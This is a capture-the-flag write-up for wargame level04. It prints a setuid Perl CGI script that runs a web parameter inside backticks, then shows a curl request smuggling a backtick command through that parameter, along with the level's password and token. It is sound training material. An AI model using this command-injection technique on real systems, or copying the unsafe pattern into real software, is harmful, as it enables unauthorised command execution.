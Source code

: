 # Level04 - Flag04

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level04 | `qi0maab88jeaj46qoumi7maus` |
| flag04  |                             |
| token   | `ne2searoevaevoem4ov4ar8ap` |

## Steps to resolve on VM

1. Connect to `level04` user and check the repo to find a perl script with `flag04` permissions

```bash
su level04
# Enter the token

ls -l
> total 4
> -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

cat level04.pl
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param}; # (Common Gateway Interface), a protocol for executing scripts via web requests
> print "Content-type: text/html\n\n";
> sub x { # sub for subroutine (function) with 'x' parameter here
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x")); # param will look at the 'x' parameter given with the link (ex: localhost:4747?x=42)

# By looking at the comments we can notice the 'localhost:4747' adress
# We will list all the listening ports with netstat
netstat -tulpn | grep LISTEN
# Which will confirm us that a server is actually running on the 4747 port
>[...]
>tcp6       0      0 :::4747                 :::*                    LISTEN      - 
>[...]
```

2. Check the server on port 4747 and try to trick it to get the flag

```bash
# First we check if we can curl
curl localhost:4747
# Now that it works indeed, we try to give x argument as we saw it in the perl script
curl localhost:4747?x=42
>42

# We need now to trick it and execute getflag
# Perl script is apparently executing 'echo' + the argument we give to him,
# so let's give him the command 'getflag' to execute it
curl 'localhost:4747?x=`getflag`' #single quote used because of backquotes
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
---

## Sources

### SHELL

- [CGI & 'param()'](http://www.biogem.org/downloads/notes/Passing%20Parameters%20via%20CGI.pdf)
- [Perl subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm)
- [Curl special characters](https://www.unix.com/shell-programming-and-scripting/275920-using-curl-command-special-characters-url.html)
- [Single quotes vs Double quotes](https://stackoverflow.com/questions/1824160/escape-backquote-in-a-double-quoted-string-in-shell)
